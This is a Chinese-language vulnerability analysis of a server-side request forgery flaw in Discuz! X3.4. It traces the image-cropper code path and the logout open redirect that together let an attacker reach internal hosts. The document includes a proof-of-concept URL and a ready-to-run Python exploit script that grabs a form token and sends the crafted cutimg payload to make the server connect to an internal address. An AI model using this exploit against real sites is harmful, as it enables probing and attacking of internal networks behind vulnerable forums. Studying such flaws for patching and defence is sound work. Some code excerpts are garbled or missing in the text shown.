


Discuz! X3.4 前台ssrf
=====================

一、漏洞简介
------------

DDiscuz! X3.4
source/module/misc/misc\_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

**本地ssrf**

/source/module/misc/misc\_imgcropper.php 55行

        require_once libfile('class/image');    $image = new image();   $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl']; if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {      showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));    }
    $prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb

source/class/class\_image.php 51行

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {        $return = $this->init('thumb', $source, $target, $nosuffix); }

拼接后的参数作为`$source`又传进了init函数

source/class/class\_image.php 118行

        function init($method, $source, $target, $nosuffix = 0) {       global $_G;     $this->errorcode = 0;        if(empty($source)) {            return -2;      }       $parse = parse_url($source);        if(isset($parse['host'])) {         if(empty($target)) {                return -2;          }           $data = dfsockopen($source);            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');            if(!$data || $source === FALSE) {               return -2;          }           file_put_contents($source, $data);      }

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的,
`$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org\`即可继续执行。

source/function/function\_core.php 199行

    function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {    require_once libfile('function/filesock');  return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);}

进入dfsockopen函数后，我们构造的字符串变为\$url，然后传入了\_dfsockopen函数。

dz/source/function/function\_filesock.php 31行

image

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse\_url解析了一次\$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

其\$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

在php的curl中我们尝试访问://dz/forum.php

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class\_member.php 310行

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function\_core.php 1498行

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，\$\_SERVER\['HTTP\_HOST'\]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

站内ssrf-\>前台get型的任意url跳转-\>ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse\_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

    htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1

### python 脚本

    # coding=utf-8
    import requests
    import re
    from urllib.parse import urlparse, quote
    from urllib import parse
    if __name__ == "__main__":
        url = "http://192.168.66.129/dz/"
        ssrf_target = "192.168.0.36:6666"
        path = urlparse(url).path
        payload = quote(
            "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
                ssrf_target=ssrf_target))
        s = requests.Session()
        html = s.get(url).text
        searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
        formhash = searchObj.group(1)
        rs = s.post(
            url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
                formhash=formhash, path=path, payload=payload))
        exit()

参考链接
--------

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4前台有限制SSRF漏洞/index.html)
